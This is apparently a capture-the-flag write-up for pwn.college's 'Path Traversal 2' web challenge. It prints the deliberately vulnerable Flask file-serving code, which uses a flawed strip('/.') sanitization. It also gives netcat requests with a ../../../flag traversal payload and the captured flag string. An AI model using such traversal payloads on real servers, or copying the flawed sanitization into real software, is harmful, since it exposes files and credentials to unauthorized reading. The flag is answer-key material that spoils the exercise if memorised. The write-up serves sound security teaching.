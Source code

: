 ```yaml
---
title: "Path Traversal 2 — Writeup"
category: "Web Exploitation"
challenge: "Path Traversal 2"
platform: "pwn.college"
difficulty: "Intermediate"
---
```


# Path Traversal 2 — Writeup

## 🧠 Challenge Overview

In this challenge, we are provided with a Python Flask web server which serves files from the `/challenge/files/` directory via the `/data/<path>` endpoint.

The directory structure is as follows:

```
/challenge/
├── DESCRIPTION.md
├── files/
│   ├── index.html
│   └── fortunes/
│       ├── fortune-1.txt
│       ├── fortune-2.txt
│       └── fortune-3.txt
└── server
```

## 🔍 Server Code Analysis

The vulnerable server code is as follows:

```python
@app.route("/data", methods=["GET"])
@app.route("/data/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))
```

The key vulnerability lies in this line:

```python
requested_path = app.root_path + "/files/" + path.strip("/.")
```

The `strip("/.")` does not properly sanitize path traversal attempts like `../../../flag`, since `strip` only removes leading and trailing characters — not sequences or intermediate components.

## 🎯 Exploitation Steps

### Step 1: Basic request
```bash
printf "GET /data HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response confirms access to `index.html` and links to available fortunes.

### Step 2: Attempt to access the directory itself (Fails)
```bash
printf "GET /data/fortunes HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Returns `500 Internal Server Error` because the target is a directory, not a file.

### Step 3: Try Path Traversal
```bash
printf "GET /data/fortunes/../../../flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
✅ Returns the flag:
```
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```


## 🏁 Flag

```
pwn.college{oDarDRBzk56F2i1vM_ERNz7PJ7U.QXyYTN2wSM0IzMyEzW}
```


